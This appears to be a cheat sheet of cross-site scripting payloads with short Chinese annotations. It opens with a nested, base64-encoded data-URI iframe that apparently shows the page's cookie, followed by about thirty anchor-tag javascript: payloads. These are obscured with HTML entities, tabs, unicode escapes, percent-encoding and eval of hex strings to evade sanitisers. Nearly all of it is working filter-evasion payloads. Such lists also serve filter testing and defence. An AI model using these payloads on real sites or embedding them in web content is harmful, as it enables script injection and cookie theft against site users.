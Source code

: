 反复编码
<iframe src="data:text/html,%3Ciframe%20src%3D%22data%3Atext%2Fhtml%3Bbase64%2CPGlmcmFtZSBzcmM9ImRhdGE6dGV4dC9odG1sO2Jhc2U2NCxQSE5qY21sd2RENWhiR1Z5ZENoa2IyTjFiV1Z1ZEM1amIyOXJhV1VwUEM5elkzSnBjSFErIj4%3D%22%3E">

<a/+/onmousedown=alert(9)>ass</a>
<a href="javascript:alert('test')">link</a>
<a href="java&#115;cript:alert('xss')">link</a>
<a href=javascript:alert(&quot;XSS&quot;)>link</a>
<a href=`javascript:alert("RSnake says,'XSS'")`>link</a>
<a href=javascript:alert(String.fromCharCode(88,83,83))>link</a>
<a href="javascript&colon;alert(1)">link</a>
<a href="javasc&NewLine;ript&colon;alert(1)">link</a> 
<a href="javas&Tab;cript:\u0061lert(1);">Hello</a>
<a href="jav	ascript:alert('XSS')">link</a> //tab键
<a href="jav&#x09;ascript:alert('XSS')">link</a>
<a href="jav&#x0D;ascript:alert('XSS')">link</a>
<a href="jav&#x0A;ascript:alert('XSS')">link</a>
<a href=" &#14;  javascript:alert('XSS');">link</a>
<a href=" &#14;  jav	ascript:alert('XSS');">link</a>//tab键
<a href="&#14; jav	as	cript:\u0061	\u006C\u0065\u0072	\u0074(1)	">link</a>
<a href="javascript:\u0061lert&#x28;1&#x29">Hello</a>
<a href="javascript:confirm`1`">link</a>
<a href="javascript:confirm(1)">link</a>
<a href="j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1)">1</a>
<a href="j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:al		er	t(1)">1</a>//tab键
<a href="&Tab;javascript:alert(9)">1</a>
<a/href="&Tab;javascript:alert(9)">1</a>
<a href="javascript:%61%6c%65%72%74%28%31%29">link</a>
<a href="javascript:\u0061\u006C\u0065\u0072\u0074(1)">link</a>
<a href="jav	as	cript:\u0061	\u006C\u0065\u0072	\u0074(1)	">link</a>
<a href=javascript:eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")>2</a>
<a href=javascript:eval("&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#120;&#115;&#115;&#39;&#41;")>link</a>  

